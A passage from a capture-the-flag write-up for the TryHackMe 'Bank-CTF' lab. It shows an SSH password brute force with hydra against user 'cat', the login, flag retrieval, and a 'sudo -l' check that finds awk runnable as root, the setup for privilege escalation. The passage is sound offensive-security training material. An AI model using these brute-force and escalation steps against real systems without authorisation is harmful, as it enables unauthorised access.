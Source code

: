 **Since we found a user called `cat`, let's brute force that account's password via `hydra`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# hydra -l 'cat' -P list.txt ssh://$RHOSTS
[...]
[22][ssh] host: 10.10.53.4   login: cat   password: {Redacted}
```

**Found it! Let's login as `cat`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bank-CTF]
└─# ssh cat@$RHOSTS         
cat@10.10.53.4's password: 
[...]
cat@ubuntu:~$ whoami;hostname;id;ip a
cat
ubuntu
uid=1001(cat) gid=1001(cat) groups=1001(cat)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

**Flag4:**
```
cat@ubuntu:~$ cat flag4 
THM{$4${Redacted}}
```

### 3.5. cat to root

**Let's check `sudo` permission:**
```
cat@ubuntu:~$ sudo -l
Matching Defaults entries for cat on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cat may run the following commands on ubuntu:
    (root) NOPASSWD: /home/patrick/.bank_work/script.sh
    (root) NOPASSWD: /usr/bin/awk
```

Hmm... We can run `/usr/bin/awk` and `/home/patrick/.bank_work/script.sh` as root without password!
